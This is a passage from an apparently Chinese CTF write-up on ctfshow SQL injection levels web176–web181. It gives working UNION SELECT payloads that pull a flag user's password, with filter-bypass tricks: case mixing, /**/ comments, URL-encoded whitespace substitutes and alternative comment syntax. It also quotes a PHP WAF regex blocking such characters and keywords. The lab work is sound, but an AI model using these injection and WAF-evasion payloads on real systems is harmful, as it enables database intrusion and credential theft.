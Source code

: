 过滤规则没说

测试后发现可以大小写绕过, 应该是过滤了 union select 之类的关键词

![20220724220139](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724220139.png)


`1' unION SelECT 1,password,3 FroM ctfshow_user WhERe username='flag' %23`

## web177

过滤规则没说

![20220724221330](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724221330.png)

过滤空格, 使用 `/**/` 绕过

`1'/**/union/**/select/**/1,password,3/**/from/**/ctfshow_user/**/where/**/username='flag'%23`

## web178

![20220724222218](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724222218.png)

应该也是过滤空格, 但 `/**/` 已经没法绕过, `+` 也不行

测试了一下发现可以使用 `%09 %0a %0b %0c %0d %a0` 之类的字符

`1'union%09select%091,password,3%09from%09ctfshow_user%09where%09username='flag'%23`

## web179

同上, `%0c` 能绕过

`1'union%0cselect%0c1,password,3%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'%23`

## web180

猜测也是过滤空格...

但之前的 payload 用不了了, 想了下可能是 `#` 的问题, 换成 `--[空格]` 形式的注释就能绕过去 (空格记得按上面方法替换)

`1'union%0cselect%0c1,password,3%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'--%0c`

## web181

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

过滤了 ` ` `#` `file` `into` `select` 和一堆可以代替空格的字符

暂时没想出来
